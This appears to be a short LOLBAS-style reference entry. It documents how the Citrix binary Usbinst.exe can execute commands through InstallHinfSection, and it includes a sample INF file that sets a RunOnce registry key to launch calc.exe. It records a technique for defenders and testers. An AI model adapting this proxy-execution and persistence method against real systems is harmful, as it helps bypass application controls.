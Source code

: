 ## Usbinst.exe

* Functions: Execute

```
Usbinst.exe InstallHinfSection "DefaultInstall 128 c:\temp\calc.inf"
 
```

Acknowledgements:
* Pierre-Alexandre Braeken - @pabraeken


Resources:
* https://twitter.com/pabraeken/status/993514357807108096

Full path:
```
C:\Program Files (x86)\Citrix\ICA Client\Drivers64\Usbinst.exe
```

Notes:
calc.inf
```
; DRIVER.INF
; Copyright (c) Microsoft Corporation.  All rights reserved.
 
[Version]
Signature = "$CHICAGO$"
Class=61883
ClassGuid={7EBEFBC0-3200-11d2-B4C2-00A0C9697D17}
Provider=%Msft%
DriverVer=06/21/2006,6.1.7600.16385
 
[DestinationDirs]
DefaultDestDir = 1
 
[DefaultInstall]
AddReg = CalcStart

[CalcStart]
HKLM,Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce,Install,,cmd.exe /c """calc.exe"""
```




 
